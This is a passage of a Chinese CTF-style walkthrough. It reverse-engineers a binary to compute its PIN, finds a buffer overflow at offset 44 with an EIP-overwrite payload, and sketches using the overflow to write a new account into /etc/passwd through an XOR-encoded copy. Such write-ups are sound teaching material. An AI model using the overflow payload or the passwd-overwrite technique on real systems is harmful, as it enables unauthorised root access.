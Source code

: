 使用gdb查看程序，发现程序最后进行了异或运算，并且程序是从`0x6b8b4567`这个地址开始的。

![image](https://image.3001.net/images/20220416/1650072594_625a1c123e7be95ad5277.png!small)

![image](https://image.3001.net/images/20220416/1650072637_625a1c3d26074681b0987.png!small)

弄清楚程序，那么就可以编写利用脚本了，运行以下脚本得到PIN值`-202976456`

```
#!/usr/bin/python3
import ctypes
local_c_initial = 0x6b8b4567
local_c = 0x6b8b4567
local_8 = 0
while (local_8 <10):
local_c = local_c * 0x59 + 0x14
local_8 = local_8 + 1

PIN = ctypes.c_int(local_c ^ local_c_initial).value 
print(“The PIN code is: “, PIN)
```

### 缓冲区溢出漏洞

输入很多个字符，检查可能存在缓冲区溢出。

![image](https://image.3001.net/images/20220416/1650083533_625a46cdae647b062e81e.png!small)

![image](https://image.3001.net/images/20220416/1650092227_625a68c325a0077bf1173.png!small)

使用`msf-pattern_offset`识别出在44处溢出偏移量。

![image](https://image.3001.net/images/20220416/1650092495_625a69cfa9b9495bacf2b.png!small)

那么就可以使用一段字符填充点EIP寄存器从而达到溢出。

```
python3 -c "print('\x41'*44+'\x5b\x58\x55\x56')"
```

![image](https://image.3001.net/images/20220416/1650093085_625a6c1d56de89ec3bff5.png!small)

那么就产生了一个新的思路，可以将passwd文件复制一份，通过这个漏洞溢出填充新的账户字段进原本的passwd文件上。

```
#!/usr/bin/python3

source = open('/tmp/passwd','rb').read()
dest = open('tmp/passwd2','wb')

for i in source:
    dest.write(bytes([i^0x9b]))
```

![image](https://image.3001.net/images/20220416/1650093535_625a6ddf67b0f3584cb94.png!small)

![image](https://image.3001.net/images/20220416/1650093548_625a6decdbd30c4a153c5.png!small)
